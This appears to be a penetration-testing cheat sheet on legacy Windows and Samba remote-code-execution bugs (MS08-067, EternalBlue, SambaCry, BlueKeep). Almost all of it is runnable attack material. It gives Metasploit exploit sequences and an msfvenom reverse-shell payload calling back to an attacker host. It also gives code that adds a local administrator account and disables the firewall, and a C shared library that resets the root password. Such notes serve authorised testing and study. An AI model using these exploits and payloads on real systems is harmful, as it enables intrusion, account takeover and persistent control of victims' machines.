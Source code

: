 # Low-Hanging Fruits

## net\_api

**CVE-2008-4250, MS08-067**

Check:

```text
$ sudo nmap -n -Pn -sV --script smb-vuln-ms08-067 10.10.13.37 -p139,445
Or
msf > use exploit/windows/smb/ms08_067_netapi
msf > set RHOSTS file:smb.txt
msf > check
```

Exploit:

```text
msf > use exploit/windows/smb/ms08_067_netapi
msf > set RHOSTS file:smb.txt
msf > run
```

## EternalBlue

**CVE-2017-0144, MS17-010**

### MSF

Check:

```text
$ sudo nmap -n -Pn -sV --script smb-vuln-ms17-010 10.10.13.37 -p139,445
Or
msf > use auxiliary/scanner/smb/smb_ms17_010
msf > set RHOSTS file:smb.txt
msf > set THREADS 25
msf > run
```

Exploit:

```text
msf > use exploit/windows/smb/ms17_010_eternalblue
msf > set RHOSTS file:smb.txt
msf > run
```

### Manually

* [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)
* [https://0xdf.gitlab.io/2019/02/21/htb-legacy.html\#ms-17-010](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010)

Send MSF payload and execute it with `send_and_execute.py`:

```text
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev.exe
$ python send_and_execute.py 10.10.13.38 rev.exe
```

Or just execute commands on host with `zzz_exploit.py`:

```python
def smb_pwn(conn, arch):
    ...
    service_exec(conn, r'cmd /c net user snovvcrash Passw0rd! /add')
    service_exec(conn, r'cmd /c net localgroup administrators snovvcrash /add')
    service_exec(conn, r'cmd /c netsh firewall set opmode disable')
```

## SambaCry

**CVE-2017-7494** \(Samba 3.5.0 &lt; 4.4.14/4.5.10/4.6.4\)

### MSF

```text
msf > use exploit/linux/samba/is_known_pipename
msf > set SMB::AlwaysEncrypt false
msf > set SMB::ProtocolVersion 1
msf > run
```

### Manually

* [https://github.com/opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494)
* [https://github.com/joxeankoret/CVE-2017-7494](https://github.com/joxeankoret/CVE-2017-7494)

Compile `.so` SUID shared library:

```c
// gcc -shared -fPIC -o pwn.so pwn.c

 #include <stdio.h>
 #include <stdlib.h>

static void pwn() __attribute__((constructor));

void pwn() {
    setresuid(0,0,0);
    system("echo 'root:Passw0rd!'|chpasswd");
}
```

Get real share path on the target's filesystem:

```text
$ rpcclient -U'%' -c'netsharegetinfo ShareName' 10.10.13.37
path:    /home/snovvcrash/sharename
```

Upload `pwn.so` to target and then run the exploit:

```text
$ pip install virtualenv
$ virtualenv -p /usr/bin/python2.7
$ source venv/bin/activate.sh
$ pip install -r requirements.txt
$ . venv/bin/activate
$ ./exploit.py -t 10.10.13.37 -e pwn.so -s ShareName -r /home/snovvcrash/sharename/pwn.so -u anonymous -p ''
```

## BlueKeep

**CVE-2019-0708**

Check:

```text
msf > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf > set RHOSTS file:rdp.txt
msf > set THREADS 25
msf > run
```

Exploit:

```text
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf > set RHOSTS file:rdp.txt.txt
msf > run
```


